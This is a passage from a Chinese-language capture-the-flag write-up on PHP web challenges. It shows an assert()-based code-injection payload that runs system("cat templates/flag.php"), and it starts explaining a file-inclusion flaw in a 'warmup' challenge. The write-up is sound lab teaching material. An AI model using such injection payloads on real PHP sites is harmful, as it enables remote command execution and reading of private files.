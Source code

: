 其中

```php
strpos() 函数查找字符串在另一字符串中第一次出现的位置。如果没有找到则返回False
file_exists() 函数检查文件或目录是否存在。
assert()函数会将括号中的字符当成代码来执行，并返回true或false。
```

因此我们的目标是在assert中执行系统命令获得flag.php文件中的内容。

构造payload：`?page=abc') or system("cat templates/flag.php"); //`

此时 `file="templates/abc') or system("cat templates/flag.php");//.php" `

而	`assert("strpos('templates/abc') or system("cat templates/flag.php");//.php','..'==false")`

`//`后面的内容会被当成注释。

![image-20210208205808487](images/image-20210208205808487.png)



## 四. php代码审计题目（warmup）

> 攻防世界_ web _ 高手进阶区_warmup

- 这道题目通过查看源代码发现包含的`.php`文件，查看后进行代码审计，满足条件则，`include`文件。

- **include语句的作用**

  `include  $_REQUEST['file']`

  - `include`语句包含并运行指定文件？？
  - 意思是包含`file`参数，`file`参数是从`url`中传递进来的参数，我们要构造这个参数使得它满足代码中的条件，并且还能够被执行，执行后得到flag，一般执行的都是系统命令，命令类型是文件路径，目标也是要找到包含flag文件的路径（一般根据题目提示找到，在本题中，它提示flag在`ffffllllaaaagggg`中，这暗示了flag在当前目录的下面第四层目录中）
